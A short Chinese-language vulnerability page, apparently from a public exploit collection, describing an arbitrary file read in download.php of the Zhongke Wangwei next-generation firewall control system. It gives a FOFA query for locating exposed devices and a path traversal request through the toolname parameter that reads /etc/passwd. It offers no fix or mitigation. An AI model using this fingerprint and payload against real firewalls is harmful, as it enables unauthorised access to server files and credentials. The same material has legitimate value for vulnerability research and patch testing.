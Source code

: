 # 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞

## 漏洞描述

中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞, 攻击者通过漏洞可以读取服务器上的文件

## 漏洞影响

<a-checkbox checked>中科网威 下一代防火墙控制系统</a-checkbox></br>

## FOFA

<a-checkbox checked>body="Get_Verify_Info(hex_md5(user_string)."</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/image-20210531184103009.png)



漏洞存在于 download.php

![img](../../../.vuepress/public/img/image-20210602161941678.png)



任意点击后抓包，更改 **toolname** 参数

```plain
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```



![img](../../../.vuepress/public/img/image-20210602162110747.png)



## 

